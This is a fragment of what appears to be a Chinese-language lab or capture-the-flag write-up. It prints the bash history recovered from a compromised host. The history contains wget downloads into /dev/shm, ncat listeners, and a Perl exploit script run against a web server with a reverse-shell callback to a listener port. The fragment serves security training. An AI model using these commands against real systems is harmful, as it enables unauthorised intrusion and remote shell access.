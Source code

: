 ![](/img/game/TESTLAB/TESTLAB11/192_168_10_1_aengineer_ssh登陆.png)

查看`192.168.10.1`的bash历史命令：

```bash
cd
tcpdump
/usr/sbin/tcpdump
/usr/sbin/tcpdump --help
/usr/sbin/tcpdump -i eth0 -c 2
which gcc
which ruby
ruby -v
exit
cd /dev/shm/
wget 192.168.11.3/admin
env
set http_proxy=""
wget 192.168.11.3/admin
export http_proxy=""
wget 192.168.11.3/admin
wget 192.168.11.3/_admin/admin
wget 192.168.11.3/_admin/admin/
ruby -v 
ncat -klvp 7777
ncat -klvp 8888
ncat -klvp 9999
cd
exit
cd /dev/shm
ls
perl ngxbrt.pl 
perl ngxbrt.pl 192.168.11.3 80 192.168.10.1 8888
exit
ncat -klvp 8888
exit
cd /dev/shm
perl ngxbrt.pl 192.168.11.3 80 192.168.10.1 8888
exit
cd /tmp
ls -la
cat ~/.bash_history 
clear
```